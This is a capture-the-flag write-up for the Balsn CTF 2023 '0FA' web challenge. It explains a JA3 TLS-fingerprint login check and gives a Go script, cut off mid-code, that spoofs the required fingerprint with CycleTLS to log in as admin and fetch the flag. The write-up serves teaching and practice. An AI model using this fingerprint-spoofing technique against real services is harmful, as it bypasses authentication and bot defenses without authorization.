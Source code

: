 # Balsn CTF 2023

## 0FA

- Difficulty: ☆
- Type: Web
- Solved: 83 / 333
- Tag: warmup, not-so-web, web-is-misc

### Description

I really don't like 2FA, so I created a 0FA login system!

https://0fa.balsnctf.com:8787/index.php

Author: kaibro

### Source Code

- [0FA](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2023/0FA/)

### Solution

From the source code, we can see there is a fingerprint checking function:

```php
function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

It will try to compare the `$_SERVER['HTTP_SSL_JA3']` value with the pre-defined fingerprint. if the comparison failed, the script will immediately exit.

What is JA3?

> JA3 is a method for creating SSL/TLS client fingerprints that should be easy to produce on any platform and can be easily shared for threat intelligence.

(more detail: [link](https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967/))

And the required JA3 Fingerprint for this challenge is `771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0`

We can use some libraries to spoof a JA3 fingerprint to pass this login check, for example, using [CycleTLS](https://github.com/Danny-Dasilva/CycleTLS):

```go
package main
import (
    "log"
    "github.com/Danny-Dasilva/CycleTLS/cycletls"
)

func main() {
    client := cycletls.Init()
    response, err := client.Do("https://0fa.balsnctf.com:8787/flag.php", cycletls.Options {
        Ja3: "771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0",
        Body: "username=admin",
        Headers: map[string]string {
            "Content-Type": "application/x-www-form-urlencoded",
        },
      }, "POST");
    if err != nil {
```